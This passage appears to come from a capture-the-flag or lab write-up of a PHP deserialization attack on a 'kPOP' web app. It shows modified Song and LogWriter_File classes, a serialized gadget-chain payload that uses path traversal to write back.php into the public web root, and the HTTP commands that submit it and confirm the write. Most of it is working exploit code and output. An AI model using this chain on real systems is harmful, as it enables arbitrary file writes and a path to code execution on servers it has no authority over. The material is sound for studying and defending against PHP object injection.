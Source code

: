 #### 5.1. Patch for `Song` class

Note: Full Path disclosure will give you the correct path to "www" public directory
FPD: `/var/www/webdev.local/public/kPOP/`
Todo: 
- replace the `filename` variable as: `(../ * 16) + <full_path_public_www> + <arbitrary_file>`
- notice how your log file will be written to chosen path

```
    function __construct($name, $group, $url)
    {
        $this->name = $name;
        $this->group = $group;
        $this->url = $url;
        $fltr = new OutputFilter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>");
        $this->logger = new Logger(
            new LogWriter_File(
                "../../../../../../../../../../../../../../../../var/www/webdev.local/public/kPOP/back.php", //BAZINGA
                new LogFileFormat(array($fltr), "\n"))
        );
    }
```

#### 5.2. Patch for `LogWriter_File` class
```
    function __construct($filename, $format)
    {
        // disable this to allow filename containing ../
        //$this->filename = str_replace(
        //    "..",
        //    "__",
        //    str_replace("/", "_", $filename)
        //);
        $this->filename = $filename; //BAZINGA 
        $this->format = $format;
    }
```

#### 5.3. Prepare the sploit
```
$ payload=`http --verify=no https://$target/sploit.php | base64`
$ echo $payload | base64 -D | tr -d '\n' && echo
O:6:"Lyrics":2:{s:9:"*lyrics";s:3:"123";s:7:"*song";O:4:"Song":4:{s:9:"*logger";O:6:"Logger":1:{s:12:"*logwriter";O:14:"LogWriter_File":2:{s:11:"*filename";s:89:"../../../../../../../../../../../../../../../../var/www/webdev.local/public/kPOP/back.php";s:9:"*format";O:13:"LogFileFormat":2:{s:10:"*filters";a:1:{i:0;O:12:"OutputFilter":2:{s:15:"*matchPattern";s:19:"/\[i\](.*)\[\/i\]/i";s:14:"*replacement";s:9:"<i>\1</i>";}}s:7:"*endl";s:1:"";}}}s:7:"*name";s:1:"a";s:8:"*group";s:1:"b";s:6:"*url";s:1:"c";}}
```

### 5.4. Run the sploit
```
$ http --verify=no --proxy=$proxy -f https://$target/kPOP/import.php data=$payload -b 2>/dev/null
$ http --verify=no https://$target/kPOP/back.php -b
Song a by <i>b</i> viewed.
```

### 5.5. Conclusion
- we can write a PHP file to the public web directory
- find out a way to control the content written to the PHP file 
- `Song a by <i>b</i> viewed.` is created via `Song::log` function
```
$this->logger->log("Song " . $this->name . " by [i]" . $this->group . "[/i] viewed.\n");
```


